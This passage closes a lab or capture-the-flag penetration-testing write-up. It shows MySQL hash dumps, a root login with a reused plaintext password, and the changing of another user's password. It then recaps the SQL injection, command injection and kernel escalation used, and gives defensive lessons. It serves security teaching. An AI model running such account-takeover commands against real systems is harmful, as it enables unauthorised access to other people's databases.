 ```sh
localhost.localdomain                   N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N     NN       N       N                                       0       0       0
localhost                       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N       N     NN       N                                       0       0       0
localhost       john    5a6914ba69e02807        Y       Y       Y       Y       N       N       N       N       N       N       N       N       N       N       N       N     NN       N       N       N                                       0       0       0
```

This indicates that the hashes for both the `john` and `root` user are the same, meaning they're using the same password (hiroshima). I tried it out and `root` did in fact use the same password, giving me full access to MySQL:

```sh
sh-3.00$ mysql -uroot -phiroshima -e "show databases;"
Database
mysql
test
webapp
```

With root access I could easily change current credentials, add new ones, etc.:

```sh
sh-3.00$ mysql -uroot -phiroshima -e "use mysql; update user set password = password('test123') where user = 'john';"
sh-3.00$ mysql -uroot -phiroshima -e "flush privileges;"
sh-3.00$ mysql -ujohn -phiroshima -e "show databases;"
ERROR 1045 (28000): Access denied for user 'john'@'localhost' (using password: YES)
sh-3.00$ mysql -ujohn -ptest123 -e "show databases;"
Database
mysql
test
webapp
```

## Lessons learned

I gained low privilege access to the target machine using a vulnerability in the web application's login form hosted on the target. This vulnerability allowed me to inject SQL code, bypassing all user credential checks. From there I used a second vulnerability in the web application (specifically in `pingit.php`), where I was able to inject and execute arbitrary commands into the target machine. Both of these vulnerabilities could've been prevented by properly validating/sanitizing user input and using stored procedures.

After that, gaining root access relied on exploiting outdated kernel and CentOS versions. This could've been prevented by regularly carrying out version updates.

Finally, the way I was able to gain complete control of the MySQL service running on the target machine relied on 1) the way the passwords for this service were stored and 2) the reuse of passwords. Passwords should not be stored in plaintext but should be secured with at the very least a strong hashing algorithm. You should also never reuse passwords for multiple accounts - keep them unique.  
